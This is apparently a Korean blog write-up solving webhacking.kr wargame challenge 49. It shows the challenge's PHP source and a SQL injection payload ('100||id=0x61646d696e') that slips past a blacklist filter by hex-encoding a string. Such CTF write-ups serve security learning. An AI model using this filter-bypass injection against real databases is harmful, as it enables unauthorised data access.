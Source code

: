 ```yaml
---
title: "[webhacking.kr] 49번 문제 풀이[sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "49번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 49번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152792504-e79a6af9-6eb6-4943-ab61-af213229089e.png)

  ```php
<?php
  if($_GET['lv']){
    $db = dbconnect();
    if(preg_match("/select|or|and|\(|\)|limit|,|\/|order|cash| |\t|\'|\"/i",$_GET['lv'])) exit("no hack");
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall49 where lv={$_GET['lv']}"));
    echo $result[0] ;
    if($result[0]=="admin") solve(49);
  }
?>
  ```

# 문제 풀이
  injection을 해야 하는 sql문은 다음과 같습니다.

  ```sql
select id from chall49 where lv={}
  ```

  우선 초기 인젝션 페이로드를 다음과 같이 구성합니다.
  ```sql
100||id='admin'
  ```

  위의 페이로드중 필터링에 걸리는 부분은 "'"밖에 없습니다.
  'admin' 대신에 0x61646d696e로 바꿔서 페이로드를 구성합니다.

  ```sql
100||id=0x61646d696e
  ```

  ![image](https://user-images.githubusercontent.com/33647663/152793795-065137f4-63c3-4cc9-9edf-5197eec1e931.png)